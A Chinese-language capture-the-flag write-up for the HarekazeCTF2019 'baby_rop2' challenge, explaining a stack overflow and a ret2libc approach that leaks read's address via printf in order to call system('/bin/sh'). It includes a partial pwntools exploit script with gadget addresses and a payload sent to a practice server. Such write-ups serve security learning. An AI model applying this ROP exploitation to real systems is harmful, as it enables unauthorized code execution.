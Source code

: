 # 0x01C.[HarekazeCTF2019]baby_rop2 - ret2csu + ret2libc

惯例的`checksec`，发现只开了NX

![](img/1fe75d81c15895f9ceda65767885a613.png)

拖入IDA进行分析

![image.png](img/96593bb42ed5147dde21711cde1d24e7.png)

主函数中存在溢出，不过没有可以利用的函数，故考虑ret2libc：先使用printf泄露read函数地址再用LibcSearcher得到libc最后构造rop链执行`system("/bin/sh")`即可

构造exp如下：

```
from pwn import *
from LibcSearcher import *

e = ELF('./babyrop2')

pop_rsi_r15_ret = 0x400731
pop_rdi_ret = 0x400733
fmtstr = 0x400790
read_got = e.got['read']
printf_plt = e.plt['printf']
main_addr = e.sym['main']
payload = b'A'*0x20 + p64(0xdeadbeef) + p64(pop_rsi_r15_ret) + p64(read_got) +p64(0) + p64(pop_rdi_ret) + p64(fmtstr) + p64(printf_plt) + p64(e.sym['main'])

p = remote('node3.buuoj.cn',25106)
p.recv()
p.sendline(payload)
```